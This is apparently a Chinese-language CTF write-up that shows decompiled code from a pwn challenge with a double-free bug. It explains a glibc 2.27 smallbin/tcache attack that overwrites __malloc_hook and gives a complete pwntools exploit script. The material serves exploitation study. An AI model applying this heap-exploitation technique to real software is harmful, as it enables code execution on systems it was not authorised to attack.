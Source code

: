 ```yaml
---
layout:     post
title:      "small bin attack"
subtitle:   "关于smallbin的利用"
date:       2019-09-20 11:00:00
author:     "b0ldfrev"
catalog: true
tags:
    - Pwn
    - CTF
 
---
```

> 最近刷了道有意思的pwn，做个记录分享一下

## 程序逻辑

Add 函数
```c
unsigned __int64 sub_1340()
{
  unsigned int v1; // [rsp+4h] [rbp-1Ch]
  size_t length; // [rsp+8h] [rbp-18h]
  __int64 price; // [rsp+10h] [rbp-10h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  sub_1302();
  printf("What item do you want to buy: ");
  __isoc99_scanf("%d", &v1);
  if ( v1 <= 3 )
  {
    printf("How many: ");
    __isoc99_scanf("%lu", &price);
    printf("How long is your note: ");
    __isoc99_scanf("%d", &length);
    if ( (unsigned int)length <= 0x100 )
    {
      for ( HIDWORD(length) = 0; SHIDWORD(length) <= 47 && qword_4080[SHIDWORD(length)]; ++HIDWORD(length) )
        ;
      if ( HIDWORD(length) != 48 )
      {
        qword_4080[SHIDWORD(length)] = (char *)malloc((unsigned int)(length + 40));
        strcpy(qword_4080[SHIDWORD(length)], (&str_name)[v1]);
        printf("Content: ");
        read(0, qword_4080[SHIDWORD(length)] + 32, (unsigned int)length);
        *(_QWORD *)&qword_4080[SHIDWORD(length)][(unsigned int)length + 32] = price;
        puts("Done!");
      }
    }
  }
  return __readfsqword(0x28u) ^ v4;
}
```

Show 函数

```c
**int sub_1532()
{
  char *v0; // rax
  char *v1; // rax
  char *v2; // rsi
  signed int i; // [rsp+Ch] [rbp-4h]

  for ( i = 0; i <= 47; ++i )
  {
    v0 = qword_4080[i];
    if ( v0 )
    {
      v1 = qword_4080[i];
      v2 = qword_4080[i];
      LODWORD(v0) = printf("Name: %s, Note: %s\n");
    }
  }
  return (signed int)v0;
}
```

Delete 函数

```c
unsigned __int64 sub_1252()
{
  int idx; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("Which item are you going to pay for: ");
  __isoc99_scanf("%d", &idx);
  if ( idx >= 0 && idx <= 48 && qword_4080[idx] )
    free(qword_4080[idx]);
  else
    puts("No such item");
  return __readfsqword(0x28u) ^ v2;
}

``` 

漏洞点明显在Delete函数，free时没有将存放chunk的数组置零，造成double free


## 利用思路

泄露libc，heap地址后，可以利用double free来攻击，但是我们每次分配到chunk时，只能从chunk_mem的0x20字节偏移处开始写数据，并不能覆盖到每个chunk的fd指针，所以直接利用double free来实现任意地址分配是不行的。

此题是在glibc2.27环境，tcache可以将一个大的chunk放入它的链表，通过double free，可以让这个大chunk同时存在于unsorted bin与tcache链表中；这时通过大chunk中残留的main_arena值，分配到main_arena，覆盖smallbin[3]（也就是管理大小为0x50的一个链表结构）为一个可控的fake_chunk(该fake_chunk的大小为0x41，且里面的fd与bk指针要指向smallbin[3]的chunk头)，再分配到这个0x50大小的chunk以此来构造overlap chunk(由于写入数据时main_arena的top指针会被覆盖成商品名称，所以后期不能从top_chunk分配，之前就要构造好chunk结构），最后利用tcache poisoning覆盖到malloc_hook与realloc_hook


## EXP

```python
from pwn import *

#context.log_level = 'debug'

p = process('./amazon')
#p=remote("121.41.38.38",9999)
libc=ELF("./libc-2.27.so")

def g(p,data=False):
    gdb.attach(p,data)
    raw_input()

def ru(x):
    return p.recvuntil(x)
    
def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

def rl():
    return p.recvline()

def re(x):
    return p.recv(x)

def add(idx,price,length,data):
	ru("Your choice: ")
	sl(str(1))
	ru("uy: ")
	sl(str(idx))
	ru("many: ")
	sl(str(price))
	ru("note: ")
	sl(str(length))
	ru("tent: ")
	se(data)

def add2(idx,price,length):
	ru("Your choice: ")
	sl(str(1))
	ru("uy: ")
	sl(str(idx))
	ru("many: ")
	sl(str(price))
	ru("note: ")
	sl(str(length))

def show():
	ru("Your choice: ")
	sl(str(2))

def free(idx):
	ru("Your choice: ")
	sl(str(3))
	ru("for: ")
	sl(str(idx))

add(1,0x10,0x90,"1"*8) #chunk0 (leak_main_arena)
add(1,0x10,0x80,p64(0)) #chunk1 (There's a fake chunk in it.)
free(1)
add(1,0x10,0x30,"3"*8) #chunk2 (dotcache poisoning)  ## chunk1 can overflow  to chunk2
free(2)
add(1,0x10,0x20,"4"*8)
add(1,0x10,0x20,"2"*8)
free(0)
free(0)
show()
ru("Name: ")
heap=u64(re(6).ljust(8,"\x00"))-0x260
print hex(heap)

for i in range(6):
    free(0)

show()
ru("Name: ")
lib=u64(re(6).ljust(8,"\x00"))-0x3ebca0
print hex(lib)

hook=libc.symbols["__malloc_hook"]
hook=lib+hook
print hex(hook)
one=lib+0x10a38c
realloc=lib+libc.symbols["realloc"]

add(1,0x10,0x80,"y"*0x60+p64(0)+p64(0x51)+p64(lib+0x3ebce0)*2) # malloc to chunk1 (set fake_chunk and its fd bk -> small bin[3]_head)

add(1,0x10,0x90,"1"*8)  # malloc padding 

add(1,0x10,0x90,p64(lib+0x3ebcb0)*2+p64(lib+0x3ebcc0)*2+p64(lib+0x3ebcd0)*2+p64(heap+0x340+0x60)*2) ## malloc to main_arena to modify smallbin[3] to fake_chunk
add(1,0x10,0x20,p64(hook-0x28))  ## malloc to fake_chunk, edit，and overflow to chunk2 
add(1,0x10,0x30,"wwe")

add(1,0x10,0x30,p64(one)+p64(realloc+0x9))

add2(1,1,0x60)

p.interactive()



```
>[题目链接](https://github.com/yxshyj/project/tree/master/pwn/small_bin_attack)
